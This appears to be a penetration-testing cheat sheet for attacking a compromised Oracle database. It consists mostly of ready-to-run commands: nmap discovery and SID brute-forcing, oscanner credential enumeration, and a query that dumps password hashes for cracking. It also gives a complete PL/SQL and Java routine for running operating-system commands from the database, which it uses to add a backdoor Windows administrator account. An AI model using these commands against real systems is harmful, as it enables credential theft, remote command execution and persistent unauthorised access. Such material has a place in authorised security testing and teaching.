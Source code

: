 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

## SYSTEM-Level Command Excecution
Step 1: Add the correct permissions. This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious escaping issue with the driver used by dbeaver.
```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "mycmd" AS
import java.lang.*;
import java.io.*;
 
public class mycmd
{
 public static void execCommand (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.*

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE run_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'mycmd.execCommand (java.lang.String)';
/
```

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec run_cmd('net user npn pwned12345 /add');`

`exec run_cmd('net localgroup Administrators npn /add');`
